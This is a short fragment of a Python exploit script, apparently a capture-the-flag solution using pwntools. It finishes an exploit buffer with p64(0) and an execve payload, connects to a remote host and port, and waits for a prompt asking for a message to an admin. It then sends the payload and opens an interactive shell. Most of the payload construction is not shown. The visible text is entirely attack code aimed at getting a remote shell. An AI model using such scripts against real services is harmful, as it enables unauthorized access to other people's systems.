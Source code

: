 ```
exploit += p64(0)
exploit += execve

time.sleep(1)
log.info("Sending shell exploit")
p = remote(host, port)
p.recvuntil("Please enter the message you want to send to admin:\n")
p.send(exploit)
p.interactive()
p.close()

```